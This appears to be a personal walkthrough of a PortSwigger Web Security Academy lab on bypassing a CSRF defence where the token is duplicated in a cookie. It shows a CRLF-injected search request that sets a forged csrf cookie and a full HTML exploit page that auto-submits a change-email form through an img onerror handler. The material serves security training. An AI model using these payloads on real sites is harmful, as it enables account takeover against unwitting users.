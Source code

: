 # Lab: CSRF where token is duplicated in cookie
# https://portswigger.net/web-security/learning-paths/csrf/csrf-common-flaws-in-csrf-token-validation/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie

```bash
# Login to wiener:peter and update your password to abc@gmail.com
# Take change-email request and send it to repeater.
```

```bash
# csrf token and csrf cookie to this:

 VAEvcYQ7QxVHtscL6RlhzZyXOZGrsHYa

# change email and send request to see if it works.  

```

```bash
# Search test

GET /?search=test HTTP/2

# Response

HTTP/2 200 OK
Set-Cookie: LastSearchTerm=test;
```

```bash
GET /?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None HTTP/2

# Response:

HTTP/2 200 OK
Set-Cookie: LastSearchTerm=test
Set-Cookie: csrf=fake; SameSite=None; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3440
```

```bash
# Payload: This lab took my hours because of weird bug keep changing email value until it accepts.

<html>
 <body>
  <form action="https://0ad800fb03cc069780b54e1000ac00e8.web-security-academy.net/my-account/change-email" method="POST">
   <input type="hidden" name="email" value="abcdefghsa@email.com"/>
   <input type="hidden" name="csrf" value="fake"/>
  </form>
 </body>
<img src="https://0ad800fb03cc069780b54e1000ac00e8.web-security-academy.net/?search=blabla%0d%0aSet-Cookie%3a%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit()">
</html>
```
